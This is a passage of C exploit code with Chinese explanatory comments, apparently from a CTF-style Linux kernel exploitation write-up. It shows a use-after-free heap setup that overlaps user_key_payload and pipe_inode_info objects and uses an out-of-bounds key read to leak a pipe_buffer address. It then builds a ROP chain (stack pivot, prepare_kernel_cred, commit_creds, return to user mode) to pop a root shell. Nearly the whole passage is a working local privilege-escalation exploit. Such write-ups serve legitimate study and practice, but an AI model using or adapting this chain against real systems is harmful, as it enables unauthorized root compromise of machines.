 ```c
    
    // 申请两个obj，大小均为kmalloc-192
    note_add(0, PIPE_INODE_INFO_SZ, buf);
    note_add(1, PIPE_INODE_INFO_SZ, buf);
    
    // 两个都释放，按照顺序
    note_free(1);
    note_free(0);
    // 0 -> 1

    // 我们知道key_alloc会有一个临时obj保存description，一个obj为user_key_payload
    // 0为临时obj，而1为user_key_payload
    pipe_key_id = key_alloc("ltfall", buf, PIPE_INODE_INFO_SZ - 0x18);
    // 将1也释放了，待会让pipe_inode_info结构体和1的内存重叠
    // 因为我们知道可以用user_key_payload的read功能越界读嘛，所以才这样做
    note_free(1);
    
    // 将0申请为PIPE_BUFFER_SZ大小的空间，也就是kmalloc-1k
    note_add(0, PIPE_BUFFER_SZ, buf);
    note_free(0);

    // 同时会申请pipe_buffer，为note[0]，以及pipe_inode_info，为note[1]
    pipe(pipe_fd);
    // pipe_inode_info和user_key_payload重叠，刚好写user_key_payload的datalen为0xffff

    // 读0xffff到buf，可以把pipe_inode_info的pipe_buffer指针读到buf中来
    key_read(pipe_key_id, buf, 0xffff);
    pipe_buffer_addr = buf[16];

    success("Got pipe_buffer_addr : 0x%llx.", pipe_buffer_addr);

    // 调试语句，不必理会
    info("The addr of first breakpoint should be 0x%llx.", kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET);
    info("The addr of second breakpoint should be 0x%llx.", kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31);

    // 写好ROP，里面执行的顺序按照序号标注
    int p = 0;

    buf[p++] = *(size_t*) "ltfall12";
    buf[p++] = 0;
    buf[p++] = pipe_buffer_addr + 0x18; // 0x00. 这个地方为pipe_buffer->ops，覆盖为了pipe_buffer_addr + 0x18，因此执行0x01
    buf[p++] = kernel_offset + POP_RAX_RET; // 0x02. 从0x01栈迁移到这里，通过POP RAX去执行0x03
    buf[p++] = kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET; // 0x01. RSI此时为buf起始位置，执行后栈迁移到0x02
    buf[p++] = kernel_offset + POP_RDI_RET; // 0x03. 从这里开始执行ROP了
    buf[p++] = NULL;
    buf[p++] = kernel_offset + RET;
    buf[p++] = kernel_offset + PREPARE_KERNEL_CRED;
    buf[p++] = kernel_offset + XCHG_RDI_RAX_RET;
    buf[p++] = kernel_offset + COMMIT_CREDS;
    buf[p++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31; // 0x04. 这里注意，需要跳过前面的栈操作，从mov rdi, rsp开始
    buf[p++] = 0; // 0x05. 使用swapgs_restore_regs_and_return_to_usermode需要后面写两个0
    buf[p++] = 0;
    buf[p++] = get_root_shell;
    buf[p++] = user_cs;
    buf[p++] = user_rflags;
    buf[p++] = user_sp;
    buf[p++] = user_ss;

```